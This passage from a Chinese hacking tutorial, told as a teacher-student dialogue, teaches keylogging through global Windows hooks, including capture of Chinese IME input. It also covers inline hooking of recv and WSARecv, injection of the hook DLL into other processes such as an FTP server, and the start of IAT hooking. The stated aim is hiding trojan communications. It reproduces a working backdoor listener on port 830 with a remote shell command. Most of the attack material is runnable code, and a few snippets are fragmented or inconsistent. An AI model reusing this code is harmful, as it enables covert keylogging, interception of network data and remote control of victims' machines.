“在 VC 下新建一个工程，选择 ‘MFC AppWizard(exe)’ 工程，命名为 CallFunction，如图 7.4。”
图 7.4

“在向导第二步选择基于对话框的程序，其他的按照默认设置即可，如图 7.5。”
图 7.5

“基本代码生成后，我们在对话框初始化方法 OnInitDialog 中添加读取 DLL 和调用安装钩子函数 InstallHook() 的代码。”

```cpp
static HINSTANCE hInstance;

// 定义函数
typedef BOOL (CALLBACK *pINSTALLHOOK)();
pINSTALLHOOK installhook;

// 读取 DLL
if(hInstance = LoadLibrary((LPCTSTR)"HOOKDLL.dll"))
{
    // 执行 DLL 里的安装钩子函数
    installhook =
        (pINSTALLHOOK)GetProcAddress(hInstance, "InstallHook");
    installhook();
}


```

“完整的程序请参看附录。我们将刚才生成的 DLL 文件命名为 HOOKDLL.dll，拷贝到这个测试程序的同一目录下，按 Ctrl+F5 运行，钩子函数即被安装到系统所有进程中。”

“好了，我来测试一下。”小菜们急不可耐地说，“钩子加载后，无论在什么时候，在什么窗口，我们按下键盘字母或数字键……”

“哈哈，都被 HOOK 程序截获，显示按下的键盘键值。键盘 HOOK 成功，如图 7.6。”小菜们高兴地说道。
图 7.6

“但是，这种方法对 HOOK 中文的输入不能成功。”老师提醒道。

小菜们一愣，“我试试，是啊，输入的时候只是单个字符的截获，用什么办法能截获中文呢？”

“为了能 HOOK 中文输入，我们需要 HOOK 不同的东西，这就是使用 WH_CALLWNDPROC 钩子类型，和 WM_IME_COMPOSITION 消息。”

### 7.2.3 HOOK 中文输入

“如果我们要 HOOK 中文输入，就需要挂钩 WH_CALLWNDPROC 类型的钩子。使用 SetWindowsHookEx 函数，其他参数都一样，只是第一个参数为 WH_CALLWNDPROC，`hHook = SetWindowsHookEx(WH_CALLWNDPROC, (HOOKPROC)HookProc2, hModule, 0);`。”

“在处理函数 HookProc2 中，判断 nCode 是否是 HC_ACTION，如果是，将 lParam 转化为 CWPSTRUCT 类型，`CWPSTRUCT cwps = *(CWPSTRUCT*)lParam;`。”

“如果该结构的 message 成员为 WM_IME_COMPOSITION，则使用 ImmGetCompositionString 获得用户输入的中文，然后再用 MessageBox 打出来，代码如下。”

```c
LRESULT CALLBACK HookProc2(int nCode, WPARAM wParam, LPARAM lParam)
{
    LRESULT ret = CallNextHookEx(hHook, nCode, wParam, lParam);
    if(HC_ACTION == nCode)
    {
        CWPSTRUCT cwps = *(CWPSTRUCT*)lParam;
        if(cwps.message == WM_IME_COMPOSITION)
        {
            HWND forcushwnd = GetFocus();
            HIMC fhwnd = ImmGetContext(forcushwnd);
            char cchar[1024] = {0};
            LONG size = ImmGetCompositionString(fhwnd, GCS_RESULTSTR, NULL, 0);
            ImmGetCompositionString(fhwnd, GCS_RESULTSTR, cchar, size);
            MessageBox(NULL, cchar, "", MB_OK);
            ImmReleaseContext(forcushwnd, fhwnd);
        }
    }
}
``````c
return ret;
```

“我们生成新的 DLL，同样拷贝到测试程序的目录下，然后运行测试程序。如果我们在 Word 中使用紫光输入法输入中文，输入的中文被成功截获了，如图 7.7。”


图 7.7

## 7.3 HOOK recv 函数——跳转法

“哦，这下无论英文字母还是中文字符都可以截获了，好 cool 啊！”小菜们叫道。

“是的，翻译软件的屏幕取词技术，就是使用类似 HOOK 方法。”老师说道，“而一般意义上的 HOOK，就是通过截获消息，使我们的程序获得其他进程的操作权，这样就可以处理自己的事情了。”

“而回到我们的主题——木马的通信隐藏上来。无论是远程线程注入，还是 HOOK 法注入，还是特洛伊 DLL 注入，木马进入感兴趣的进程后，需要关心如何改变 recv 函数的流程，进入它自己的代码，从而截获网络通信的数据，在不开启端口的情况下接收到木马控制者的命令。”

“我们的关键就是改变 API 函数的流程了。这种改变 API 函数流程的方法叫做 API HOOK，也就是 API 挂钩。实现 API HOOK 的方法有多种，第一种，也是最直观的方法，就是改写 API 函数入口处的代码，实现对函数的挂钩。”

### 7.3.1 方法简介

“改写 API 函数入口点一些字节的想法编程实现很简单，关键是这个思路。”老师说道，“大家学习了这么久，应该有点感觉：编程本身并不难，难的是创新的思路和想法。邓小平理论教育我们：创新，是一个民族发展的灵魂。但我们从小就被只有一个标准答案，对就对，错就错的教育体制严重禁锢了自身的创造性，希望大家能更早地意识到这点，不要害怕错误，事情都没有绝对的对错之分的，激励自己更 Creative 一点吧。”

“好，Creative！Creative！”

“改写 API 函数入口点的思路是修改函数开始的几个字节，使一进入 API 函数就跳转到我们的函数中，然后在我们自己的函数中执行想要的操作，最后再恢复、调用原来的 API 函数。这样既可以执行我们的代码，也可以不妨碍正常程序的执行。”

“我们以 HOOK recv 函数为例子，更详细地说明跳转法的流程。”

“先使用 GetProcAddress 函数获得进程中 ws2_32.dll 模块的 recv 函数的地址。我们读取 recv 函数入口处的 8 个字节的内容，把它保存起来留着以后恢复时使用。”

“然后把 recv 函数入口处的 8 个字节改写为跳转指令，以便跳入我们的函数中。比如，我们的函数地址为 0x12345678，则应改写为：”

```asm
mov eax, 0x12345678    // 将 0x12345678 赋给 eax
jmp eax                // 跳到 eax 中
```

“为了得到这些汇编的十六进制机器码，我们在 VC 中用 `asm{}` 关键字插入汇编，然后按 F10 进入调试状态，选择调试工具中的反汇编按钮调出汇编代码，再点鼠标右键，在弹出菜单中选择显示机器码。就可以看见每条指令的汇编代码和机器代码，如图 7.8。”


图 7.8

“对应的十六进制机器码为：”

```c
0x0B8, 0x78, 0x56, 0x34, 0x12;        // MOV EAX, 0x12345678
0x0FF, 0x0E0, 0                       // JMP EAX
```

“我们把代码抄下来，保存在数组 btNewBytes 中，`BYTE btNewBytes[8] = { 0x0B8, 0x78, 0x56, 0x34, 0x12, 0x0FF, 0x0E0, 0 };`”

“我们就可以用 btNewBytes 覆盖 recv 函数入口处的 8 个字节，这样每当 recv 被进程中的代码调用时，都会先运行入口处的跳转指令而跳转到我们的函数中。”

“进入我们函数后，就可以‘为所欲为’了。但为了还能使用原本的 recv 函数，我们先要恢复 recv 函数入口处的 8 个字节，然后再调用原 recv 函数。”

“最后调用原 recv 后，为了下一次还能 HOOK，需要再次将其入口处改为跳转指令。思路合起来，整个 API HOOK 的流程如图 7.9。”


图 7.9

> “嗯，一图胜千言。真佩服前辈们啊！”
>
> “在软件工程中，没有做不到，只有想不到。所以创新的精神是难能可贵的。有了思路，我们就可以更详细地实现代码了。”

### 7.3.2 本进程 recv HOOK 的实现

“我们使用 ReadProcessMemory 函数读取 recv 函数的前 8 个字节，相对应的，使用 WriteProcessMemory 函数覆盖改写 recv 函数的入口 8 个字节。这两个函数定义如下。”

原型：

```c
BOOL ReadProcessMemory(
    HANDLE hProcess,
    LPCVOID lpBaseAddress,
    LPVOID lpBuffer,
    SIZE_T nSize,
    SIZE_T* lpNumberOfBytesRead
);
```

参数：

- 第一个参数 hProcess 表示要读取进程的句柄，要成功读取必须对该进程具有 PROCESS_VM_READ 的权限。如果读取本进程，可以指明为 INVALID_HANDLE_VALUE。
- 第二个参数 lpBaseAddress 表示读取的起始位置。在读取任何数据以前，系统会验证该起始位置可读。如果不可读，则函数执行失败。
- 第三个参数 lpBuffer 为读取内容存储的地方。
- 第四个参数 nSize 为要读取的字节数，和 lpBaseAddress 一起指明了那些字节需要读取。
- 第五个参数 lpNumberOfBytesRead 是个返回值，返回实际读取的字节数。如果为 NULL，则该参数被忽略。

说明：

如果读取成功，返回非 0 值；如果失败，返回 0。

原型：

```c
BOOL WriteProcessMemory(
    HANDLE hProcess,
    LPVOID lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T nSize,
    SIZE_T* lpNumberOfBytesWritten
);
```

参数：

- 第一个参数 hProcess 为要写入进程的句柄，必须对该进程具有 PROCESS_VM_WRITE 和 PROCESS_VM_OPERATION 权限。如果要写入本进程，可以将该参数指明为 INVALID_HANDLE_VALUE。
- 第二个参数 lpBaseAddress 表示写入的起始位置。在写入数据前，系统会验证该位置可写，否则，函数执行失败。
- 第三个参数 lpBuffer 为要写入的内容。
- 第四个参数 nSize 为要写入的字节数。
- 第五个参数 lpNumberOfBytesWritten 返回实际写入的字节数。

说明：

如果写入成功，返回非 0 值；如果失败，返回 0。

> “我们实现时，首先使用 LoadLibrary 和 GetProcAddress 获得 recv 函数的开始地址。”

```c
// 得到 recv 函数在 ws2_32.dll 的开始地址，存在 pRecv 中
hLib = LoadLibrary("ws2_32.dll"); // 加载 ws2_32.dll
pRecv = (PRECV)GetProcAddress(hLib, "recv"); // 获取 recv 函数的地址
```

“然后使用 ReadProcessMemory 函数保存 recv 函数开始的 8 个字节。我们将其保存在 dwOldBytes 数组中，以便以后恢复时使用。”

```c
ReadProcessMemory(
    INVALID_HANDLE_VALUE,      // 读取本进程
    (void *)pRecv,             // 读取起始位置——recv 函数入口处
    (void *)dwOldBytes,        // 存储在 dwOldBytes 数组中
    sizeof(DWORD)*2,           // DWORD 的大小是 4，*2 读取 8 个字节
    &dwSize );                 // 返回实际读取的字节数
```

“接下来构造出跳转的机器代码。跳转代码数组 btNewBytes 里的内容已经是 `mov eax, 0x12345678; jmp eax` 了。我们只要修改 `0x12345678` 为 `new_recv` 函数地址就可以了。构造非常简单，`*(DWORD *)(btNewBytes + 1)`，`btNewBytes[0]` 是 `E8`，所以 `btNewBytes[1]` 为地址 `= (DWORD)new_recv;`。”

“构造出来后，用它覆盖 recv 函数的头 8 个字节。”

```c
WriteProcessMemory(
    INVALID_HANDLE_VALUE,      // 写入本进程
    (void *)pRecv,             // 写入起始地址——recv 函数入口
    (void *)btNewBytes,        // 写入 btNewBytes 的内容
    sizeof(DWORD)*2,           // DWORD 的大小是 4，*2 写入 8 个字节
    &dwSize );                 // 返回实际写入的字节数
```

“这样，main 函数实现 API HOOK 的代码如下。”

```c
typedef int (__stdcall *PRECV)(SOCKET s, char* buf, int len, int flags);
PRECV pRecv = 0;
DWORD dwOldBytes[2];    // 保存 recv 原起始 8 字节的 dwOldBytes 数组
BYTE btNewBytes[8] = { 0xB8, 0x78, 0x56, 0x34, 0x12, 0xFF, 0xE0, 0 }; // 要覆盖的 btNewBytes 数组值
int main()
{
    // 得到 recv 函数在 ws2_32.dll 的原来真正地址，存在 pRecv 中
    HMODULE hLib;
    DWORD dwSize;
    hLib = LoadLibrary("ws2_32.dll");
    pRecv = (PRECV)GetProcAddress(hLib, "recv");
    // 保存原来 8 个字节的值到 dwOldBytes 中
    ReadProcessMemory(
        INVALID_HANDLE_VALUE,  // 读取本进程
        (void *)pRecv,         // 读取起始位置——recv 函数入口处
        (void *)dwOldBytes,    // 存储在 dwOldBytes 数组中
        sizeof(DWORD)*2,       // DWORD 的大小是 4，*2 读取 8 个字节
        &dwSize );             // 返回实际读取的字节数
    // 构造出 mov eax, new_recv 地址；jmp eax
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_recv;
    // 改写 recv 函数头几个字节为 mov eax, new_recv; jmp eax
    WriteProcessMemory(
        INVALID_HANDLE_VALUE,  // 写入本进程
        (void *)pRecv,         // 写入起始地址——recv 函数入口
        (void *)btNewBytes,    // 写入 btNewBytes 的内容
        sizeof(DWORD)*2,       // DWORD 的大小是 4，*2 写入 8 个字节
        &dwSize );             // 返回实际写入的字节数
}
```

“这样每当有进程调用 recv 函数时，就会跳入我们的 new_recv 中。我们就可以实现 new_recv 函数的功能了。在 new_recv 函数里，首先恢复原 recv 的值。就是把 pRecv 开头的 8 个字节改回保存的 dwOldBytes。代码如下。”

```c
WriteProcessMemory( INVALID_HANDLE_VALUE,   // 写入本进程
                    (void *)pRecv,          // 写入起始地址——recv 函数入口
                    (void *)dwOldBytes,     // 写入保存的原 dwOldBytes
                    sizeof(DWORD)*2,        // DWORD 的大小是 4，*2 写入 8 个字节
                    &dwSize );              // 返回实际写入的字节数
```

“恢复原 recv 函数后，就可以调用原本的 recv 函数了，`iRet = pRecv(s, buf, len, flags);` // 执行原 recv。”

“调用 recv 后，系统接收传过来的数据，我们就可以嗅探出用户数据，判断木马命令并执行了。这里作为测试，简单地把 HOOK recv 嗅探接收到的数据打印出来，如下：`MessageBox(NULL, buf, "", MB_OK);`”

“为了下次其他进程调用 recv 时还能进入我们的 new_recv，最后还要把 recv 开头的 8 个字节改写成跳转指令 btNewBytes，以后调用 recv 时又可以跳转到我们自己的函数 new_recv 中。这段改写代码基本和 main 函数里的一样。”

```c
*(DWORD *)( btNewBytes + 1 ) = (DWORD)new_recv;
WriteProcessMemory( INVALID_HANDLE_VALUE, (void *)pRecv, (void *)
btNewBytes, sizeof(DWORD)*2, &dwSize );
```

“代码合起来，new_recv 的函数如下。”

```c
int __cdecl new_recv(SOCKET s, char* buf, int len, int flags)
{
    DWORD dwSize;
    int iRet = 0;
    // 恢复本来的函数
    WriteProcessMemory( INVALID_HANDLE_VALUE,
                        (void *)pRecv,
                        (void *)dwOldBytes,
                        sizeof(DWORD)*2,
                        &dwSize );

    // 执行原来的函数
    iRet = pRecv(s, buf, len, flags);
    buf[iRet] = 0;
    // 把 HOOK recv 接收到的数据打印出来
    MessageBox(NULL, buf, "", MB_OK);
    // 再次把原函数改写成跳转到我们自己的函数
    *(DWORD *)( btNewBytes + 1 ) = (DWORD)new_recv;
    WriteProcessMemory( INVALID_HANDLE_VALUE, (void *)pRecv, (void *)
                        btNewBytes, sizeof(DWORD)*2, &dwSize );
    return iRet;
}
```

## 高手的 HOOK 编程。

“好啊，好啊。”小菜们急急忙忙地说道，“我们来 HOOK FTP！HOOK IIS！HOOK……”
老师打断道：“能直接 HOOK 其他进程当然好啊。不过，我们先来测试直接 HOOK 本进程的 recv 函数能否成功。”

“测试本进程就简单了。我们在 main 函数后，加入通信代码。这里照搬我们木马的通信代码，合起来如下。”

```c
int main()
{
    // 得到 recv 函数在 ws2_32.dll 的原来真正地址
    HMODULE hLib;
    DWORD dwSize;
    hLib = LoadLibrary("ws2_32.dll");
    pRecv = (PRECV)GetProcAddress(hLib, "recv");
    // 保存原来 8 个字节的值到 dwOldBytes 中
    ReadProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)dwOldBytes, sizeof(DWORD)*2, &dwSize);
    // 构造出 mov eax new_recv 地址；jmp eax
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_recv;
    // 改写 recv 函数头几个字节为 mov eax new_recv；jmp eax
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)btNewBytes, sizeof(DWORD)*2, &dwSize);

    // 测试代码
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024], cmd[1024];
    int ret;
    unsigned long lBytesRead;
    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 建立 socket
    // listenFD = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    // 监听本机 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户端请求 830 端口，接受连接
    int iAddrSize = sizeof(server);

ag:
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    send(clientFD, "Welcome to door by ourselves!\n\r", sizeof("Welcome to door by ourselves!\n\r"), 0);
    send(clientFD, "door>", sizeof("door>"), 0);
    while(1)
    {
        ZeroMemory(cmd, 1024);
    }
}
```

# 黑客编程入门

```c
lBytesRead = 0;
// Input cmd
while(lBytesRead < 256)
{
    if((recv(ClientFD, Buff, 1, 0) == SOCKET_ERROR))
    {
        closesocket(ClientFD);
        goto ag;
    }
    cmd[lBytesRead] = Buff[0];
    if(Buff[0] == 0xa || Buff[0] == 0xd)
    {
        cmd[lBytesRead] = 0;
        break;
    }
    lBytesRead++;
}
// 帮助信息
if(strcmp(cmd, "?") == 0)
{
    send(clientFD, g_helpmess, sizeof(g_helpmess), 0);
}
// 打开光驱
if(strcmp(cmd, "open") == 0)
{
    mciSendString("set cdaudio door open", NULL, 0, NULL);
}
// 关闭光驱
if(strcmp(cmd, "close") == 0)
{
    mciSendString("set cdaudio door closed wait", NULL, 0, NULL);
}
// 交换鼠标左右键
if(strcmp(cmd, "x") == 0)
{
    SwapMouseButton(1);
}
// 恢复鼠标左右键
if(strcmp(cmd, "r") == 0)
{
    SwapMouseButton(0);
}
// 得到 cmd shell
if(strcmp(cmd, "shell") == 0)
{
    cmdshell(clientFD);
    send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
}
// 退出木马，还可再连接
if(strcmp(cmd, "quit") == 0)
{
    closesocket(clientFD);
    goto ag;
}
// 木马退出程序
if(strcmp(cmd, "exit") == 0)
{
    closesocket(clientFD);
    closesocket(listenFD);
    goto end;
}
if(strlen(cmd))
    send(clientFD, "door>", sizeof("door>"), 0);
Sleep(10);
}
end:
;
return 0;
}
```

“将程序运行起来，然后 telnet 本机开启的 830 端口，随便输入几个字符，哈哈，成功打印出。当当当！但接着马上弹出如下对话框，如图 7.10。”


图 7.10

“呜呜呜。这是什么错误啊？”小菜们大吃一惊，恐惧地问道，“如此稀奇古怪，系统不会垮了吧！”

“不要紧张。盖茨的东西再差也不会这么差的。对话框上给出了提示信息，大意是程序检测到 esp 寄存器的值不对。应该是我们改写程序后，没有很好地恢复寄存器的值。我们跟踪调试吧！”

“一步步地调试，当 recv 的时候，成功进入我们的 new_recv 函数了，如图 7.11。”

“嘿嘿，这个倒是清楚。”


图 7.11

“在 new_recv 函数内部，恢复原 recv 函数并调用，也没问题，我们成功接收数据并打印了出来。然后再次覆盖为跳转字节，也没问题，如图 7.12。”


图 7.12

“我们继续一步步看。大家看，是 new_recv 返回到 main 函数里时，作了 esp 和 esi 的对比检查。esp 的值是 0012F568，而 esi 是 0012F578，相差 0x10，从而弹出报错对话框，如图 7.13 和图 7.14。”


图 7.13


图 7.14

“哦。”小菜们长吁了一口气，“问题终于找到了，是什么原因引起的呢？”

“说来话长，该错误的原因，要从函数的调用方式说起了。”

“函数调用时，有几种调用方法，分为 C 式和 Pascal 式，二者是有区别的。除非特殊声明，在 C 和 C++ 中 C 式调用是缺省的。”

- 1. __cdecl：C 和 C++ 缺省调用方式。该方式由主调用函数进行参数从右到左的压栈并且恢复堆栈。在被调函数中，使用 ret 返回。
- 2. WINAPI（实际上就是 PASCAL、CALLBACK、_stdcall）。该方式在主调用函数中负责参数从右到左的压栈，在被调函数中负责恢复堆栈，就是通过 ret 0x8 一类的返回。

对于大多数 API 函数以及窗口消息处理函数皆用 CALLBACK，所以调用前，主调函数会先压栈，然后 API 函数自己恢复堆栈。

“所以，我们进一步调试查看代码，发现是 esp 比 esi 小 0x10，就是 16，也就是四个参数，需要我们自己恢复堆栈。只是用 ret 返回的。所以我们 ret 0x10 帮它恢复。”

“改写 new_recv 为 void 型，然后该 return 为下面这段恢复寄存器的代码：”

```asm
__asm
{
    pop edi
    pop esi
    pop ebx
    add esp, 48h
    pop ebp
    ret 0x10;
}
```

“关键就是最后我们用 ret 0x10，恢复堆栈。这样再测试，哈哈，不再报错了，成功挂钩了 recv API 函数，如图 7.15。”


“哦？可喜可贺！可喜可贺！”小菜们高兴起来。

“没什么可喜的。刚才只是 HOOK 了自己进程的 recv 函数，没有任何意义。我们一般都是想 HOOK 其他受信任的服务里的 recv 函数，实现自己的隐藏。”

### 7.3.3 结合注入 HOOK 远程进程的 recv 函数

“要 HOOK 其他进程里的 recv 函数调用，最好的办法就是让其他进程自己执行 HOOK 修改的过程。我们毫不犹豫地拿起 DLL 注入吧。第一步，把 HOOK 代码改写成 DLL。我们使用 DLL 注入课程里的 DLL 木马模板，在 DllMain 中开启 hook 线程。”

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            CreateThread(NULL, NULL, hook, NULL, NULL, NULL); // 开启 hook 线程
        }
        default:
            return TRUE;
    }
    return TRUE;
}
```

“而在 hook 线程中，完成改写 recv 前 8 个字节的功能。”

```c
DWORD WINAPI hook(LPVOID lpParam)
{
    // 得到 recv 函数在 ws2_32.dll 的原来真正地址
    HMODULE hLib;
    DWORD dwSize;
    hLib = LoadLibrary("ws2_32.dll");
    pRecv = (pRECV)GetProcAddress(hLib, "recv");
    // 保存原来 8 个字节的值到 dwOldBytes 中
    ReadProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)dwOldBytes, sizeof(DWORD) * 2, &dwSize);
    // 构造出 mov eax, new_recv 地址；jmp eax
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_recv;
    // 改写 recv 函数头几个字节为 mov eax, new_recv, jmp eax
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)btNewBytes, sizeof(DWORD) * 2, &dwSize);
    return 0;
}
```

“而 new_recv 完全一样，直接拷贝过来即可。合起来的 DLL 代码为：”

```c
DWORD WINAPI hook(LPVOID lpParam);
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            CreateThread(NULL, NULL, hook, NULL, NULL, NULL);
        }
        default:
            return TRUE;
    }
    return TRUE;
}
// hook 函数改写开头 8 个字节
```

## 高手的 HOOK 编程

```c
DWORD WINAPI hook(LPVOID lpParam)
{
    // 得到 recv 函数在 ws2_32.dll 的原来真正地址
    HMODULE hLib;
    DWORD dwSize;
    hLib = LoadLibrary("ws2_32.dll");
    pRecv = (PRECV)GetProcAddress(hLib, "recv");
    // 保存原来8个字节的值到 dwOldBytes 中
    ReadProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)dwOldBytes, sizeof(DWORD) * 2, &dwSize);
    // 构造出 mov eax, new_recv 地址; jmp eax
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_recv;
    // 改写 recv 函数头几个字节为 mov eax, new_recv, jmp eax
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)btNewBytes, sizeof(DWORD) * 2, &dwSize);
    return 0;
}

// 我们的 new_recv 函数
void __cdecl new_recv(SOCKET s, char* buf, int len, int flags)
{
    DWORD dwSize;
    int iRet = 0;
    // 恢复本来的函数
    WriteProcessMemory(INVALID_HANDLE_VALUE,
                       (void *)pRecv,
                       (void *)dwOldBytes,
                       sizeof(DWORD) * 2,
                       &dwSize);

    // 执行原来的函数
    iRet = pRecv(s, buf, len, flags);
    buf[iRet] = 0;
    // 把 HOOK recv 接收到的数据打印出来
    MessageBox(NULL, buf, "", MB_OK);
    // 再次把原函数改写成跳转到我们自己的函数
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_recv;
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pRecv, (void *)btNewBytes, sizeof(DWORD) * 2, &dwSize);
    __asm
    {
        pop edi
        pop esi
        pop ebx
        add esp, 48h
        pop ebp
        ret 0x10;
    }
}
```

# 黑客编程入门

“编译，链接，生成需要的木马 HOOK DLL。接着第二步，编写完成注入的 exe 程序，也来自编写 DLL 木马时的模板。”

```c
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    DWORD procid;
    procid = getprocid("door31.exe");
    if(procid == 0)
        return 1;

    if(InjectDll("c:\\dllTest.dll", procid))
    {
        printf("Inject OK!\n");
    }
    else
    {
        printf("Inject Fail!\n");
    }

    return 0;
}
```

“我们测试注入基本木马编写的 door31.exe 木马程序。先把 door31.exe 运行起来。然后运行我们的注入程序。当我们登录木马时，截获 recv 数据成功，如图 7.16。”


图 7.16

“哈哈，截获别的程序 recv 了。可喜可贺！可喜可贺！”

“嗯，但这只是 HOOK 了我们自己写的木马。我们继续牛刀小试，截获实际的应用程序的 API 函数调用。”

“对啊！对啊！我们试试截获 Serv-U 的 recv 吧。把注入程序改成寻找 ServUDaemon.exe 再注入，嗯，失败？截获不到？”小菜们登录 Serv-U 后，没有任何反应，都呆住了。

“呵呵，可喜可贺！可喜可贺！”老师笑道，“大家想想会是什么问题，导致这次没有 HOOK 成功。”

“嗯，我想想，截获本进程的 recv 调用，成功；HOOK 其他进程的 recv 调用，也成功。door31.exe 和 ServUDaemon.exe 都是其他进程，没有什么区别。而 ServUDaemon.exe 截获不到，最大的可能就是 Serv-U 没有调用 recv 函数！”

“大家分析得太好了，Serv-U 没有使用 recv 函数来进行接收，那只能是 WSARecv 了。”老师说道，“大家依葫芦画瓢，试着实现 HOOK WSARecv 函数吧。”

“好呢。”小菜 C 积极地说道，“我们先定义一个 new_WSARecv 函数，然后在程序中保存原 WSARecv 的前 8 个字节，再改写为 mov eax, new_WSARecv; jmp eax，就完成截获功能了。”

```c
DWORD WINAPI hook(LPVOID lpParam)
{
    // 得到 WSARecv 函数在 ws2_32.dll 的原来真正地址
    HMODULE hLib;
    DWORD dwSize;
    hLib = LoadLibrary("ws2_32.dll");
    pWSARecv = (PWSARECV)GetProcAddress(hLib, "WSARecv");
    // 保存原来 8 个字节的值到 dwOldBytes 中
    ReadProcessMemory(INVALID_HANDLE_VALUE, (void *)pWSARecv, (void *)dwOldBytes, sizeof(DWORD) * 2, &dwSize);
    // 构造出 mov eax, new_WSARecv 地址，jmp eax
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_WSARecv;
    // 改写 recv 函数头几个字节为 mov eax, new_WSARecv，jmp eax
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pWSARecv, (void *)btNewBytes, sizeof(DWORD) * 2, &dwSize);
    return 0;
}
```

“然后在 new_WSARecv 函数中，恢复保存的原起始 8 个字节后，调用原 WSARecv 函数，进行我们对数据的处理，最后再次改为跳转代码，以便下一次还能进入我们的 new_WSARecv。”

```c
void __cdecl new_WSARecv(
    SOCKET s,
    LPWSABUF lpBuffers,
    DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesRecvd,
    LPDWORD lpFlags,
    LPWSAOVERLAPPED lpOverlapped,
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine
)
{
    DWORD dwSize;
    int iRet = 0;
    // 恢复本来的函数
    WriteProcessMemory(INVALID_HANDLE_VALUE,
        (void *)pWSARecv,
        (void *)dwOldBytes,
        sizeof(DWORD) * 2,
        &dwSize);

    // 执行原来的函数
    iRet = pWSARecv(s, lpBuffers, dwBufferCount, lpNumberOfBytesRecvd, lpFlags,
        lpOverlapped, lpCompletionRoutine);
    lpBuffers->buf[*lpNumberOfBytesRecvd] = '\0';
    // 把 HOOK recv 接收到的数据打印出来
    MessageBox(NULL, lpBuffers->buf, "", MB_OK);
    // 再次把原函数改写成跳转到我们自己的函数
    *(DWORD *)(btNewBytes + 1) = (DWORD)new_WSARecv;
    WriteProcessMemory(INVALID_HANDLE_VALUE, (void *)pWSARecv, (void *)btNewBytes, sizeof(DWORD) * 2, &dwSize);
}
```

# 黑客编程入门

```c
btNewBytes, sizeof(DWORD) * 2, &dwSize);
__asm
{
    pop edi
    pop esi
    pop ebx
    add esp, 48h
    pop ebp
    ret 28
}
```

“生成新的 DLL 文件，再用刚才的测试程序注入。这次登录 Srv_U 的 FTP 时，可爱的数据又弹出来了，成功，如图 7.17。”


图 7.17

## 7.4 修改 IAT 导入地址表

“哈哈哈！真惬意啊！”小菜们伸伸懒腰，说道，“任何调用 recv 或者 WSARecv 函数的进程都逃不过我们的掌心了。可谓‘生活节奏，尽在掌握！’”

“呵呵，刚才我们直接更改函数实际地址的开始部分，略显得暴力，其实我们可以用一种更温柔、更善良、更美丽的方法……”

“温柔？善良？美丽？”小菜们顿时来了精神：“这什么方法啊？”

“这就是修改 EXE 中的输入地址表——IAT。”

### 7.4.1 IAT 和 IAT HOOK 简介

“改写输入地址表这种方法主要得益于现如今 Windows 系统中所使用的可执行文件的良好结构——PE 文件格式（Portable Executable File Format）。EXE 文件和 DLL 文件都是这种 PE 结构。所以首先得对 PE 文件格式有所理解。”

“一个 PE 文件的结构大致如下。”


“一般 PE 文件开始是 MZ 标志和一段 DOS 程序。当你的程序在不支持 Windows 的环境中运行时，它就会显示‘This Program cannot be run in DOS mode’这样的警告语句并退出。”

“而 DOS 头后就是真正的 PE 文件内容了。”

“首先是一段称为‘IMAGE_NT_HEADER’的数据，其中是许多关于整个 PE 文件的信息。在这段数据的尾端是一个称为 Data Directory 的数据表，通过它能快速定位一些 PE 文件的段（section）的地址。在这段数据之后，则是一个‘IMAGE_SECTION_HEADER’的列表，其中的每一项都详细描述了后面一个段的相关信息。接着它就是 PE 文件中最主要的段数据了。执行代码、数据和资源等等信息就分别存放在这些段中。”

“在所有的这些段里，有一个‘.idata’段（输入数据段），包含着我们需要的输入地址表（IAT，Import Address Table）。IAT 包含了导入的相关信息和导入函数的地址，有了它，我们调用函数时，就可以不使用地址而用函数名了。编译器帮我们生成的调用代码，为下面这种格式 `JMP DWORD PTR [XXXXXXXX]`。”

“或者，如果在 VC++ 中使用了 `__declspec(import)`，那么相应的指令就成为 `CALL DWORD PTR [XXXXXXXX]`。”

“这里的‘XXXXXXXX’为 IAT 内的一个地址，它里面才存着要调用函数在 DLL 里的真实地址。”

“比如我们调用 `recv()` 函数时，编译器会帮我们生成 `JMP DWORD PTR [0x00401234]`。”

“而地址 0x00401234 在 IAT 中，填着 recv 函数在系统 Ws2_32.dll 中的真实地址，比如 0x7FF93212。这就是我们可以在两个不同版本的 Windows 里使用相同的二进制代码的原因，因为程序里都是 `JMP DWORD PTR [0x00401234]`，而进程载入器会帮我们在 IAT 里的 0x00401234 填入本系统对应的真正函数地址。”

